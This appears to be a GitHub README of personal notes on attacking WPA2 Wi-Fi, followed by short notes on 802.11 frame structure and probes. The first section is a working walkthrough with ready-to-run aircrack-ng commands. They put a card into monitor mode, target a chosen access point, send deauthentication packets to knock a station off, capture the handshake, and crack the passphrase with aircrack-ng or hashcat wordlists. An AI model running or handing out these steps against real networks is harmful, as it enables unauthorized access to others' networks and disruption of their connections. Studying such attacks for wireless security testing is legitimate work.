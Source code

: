 # WPA2 Deauth Attack

Basic Steps:

* (1) Put wNIC into monitor or promiscious mode
* (2) Monitor the network for traffic
    * (2a) Consider Strength of signal
    * (2b) Consider Whether or not you see both router and device traffic
* (3) Target the monitor to just the interested Access Point and dump its traffic
* (4) In parallel, send a malicious de-auth packet from your wNIC whose dest is the station and whose src is the router
* (5) Hopefully capture the eapol handshake to get the encrypted passphrase
* (6) Use a hash-breaker tool find a passphrase usually from a dictionary or set of rules that reproduce the recovered hased passphrase

These steps can be executed on a linux box with the following

* [install aircrack tools](https://www.aircrack-ng.org/doku.php?id=install_aircrack)
* `sudo airmon-ng start wlp5s0`
    * Assume your NIC is `wlp5s0`, most are named `wlan0`
* `iwconfig to verify monitor mode`
* `sudo airodump-ng wlp5s0mon`
    * This will give you an idea of what AP's, stations, and channels to target
    * Record the MAC of the AP and the station you want to kick off
* `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>`
    * Keep this open to log WPA2 Handshake
* In other term `sudo aireplay wlp5s0mon -0 1 -a <AP MAC> -c <TARGET MAC>`
    * This sends the attack
    * Hopefully in the dump term you capture the handshake
* To crack using aircrack: `aircrack-ng -a 2 -b <bssid> <.cap file> -w <wordlist>`
* To restore if -> `sudo airmon-ng stop wlp5s0mon && sudo ifconfig wlp5s0 up`
* To crack with hashcat Install hashcat and haschcat-utils
    * Convert the `.cap` to a `.hccapx`
    * `hashcat -m 2500 -a 0 <hhcapx> <wordlist>` will do a straight dictionary attack

# Probes, Beacons, and Wifi Packets

To get stated analyzing this attack we need to look at exactly how one knows that an access point or AP is avaiable. After all this attack targets a single and deliberately chosen AP. The best way to start analyzing packets is with wireshark which can be installed with the `apt` mananger. One can run this `sudo airodump-ng wlp5s0mon -c <chan> --bssid <AP MAC> -w <file_name>` followed by running wire shark on the outputted .cap file. In wireshark you can filter out alot of the noise on the channel with the filter `wlan.addr == <bssid> `.

# WIFI packet Basic Structure

| FC | Dur | DA | SA | BSSID | Seq | A4 | QoS | HT | Body | FCS |

* FC = Frame Control. Most importantly defines frame type and sub type. See [here](https://en.wikipedia.org/wiki/802.11_Frame_Types)
* Dur = Duration. Usually denotes the amount requested or granted of airtime
* DA = Destination Address
* SA = Source Address
* BSSID = MAC of AP
* Seq = Sequence Number
* A4 = MAC 4 only present in frames between APs
* Body = Main body of packet
* FCS = CRC of packet including header


# Probe

* Deliberatley sent by the station (STA) to the AP

# Resources

* [Wiki on Wifi Frame](https://en.wikipedia.org/wiki/802.11_Frame_Types)
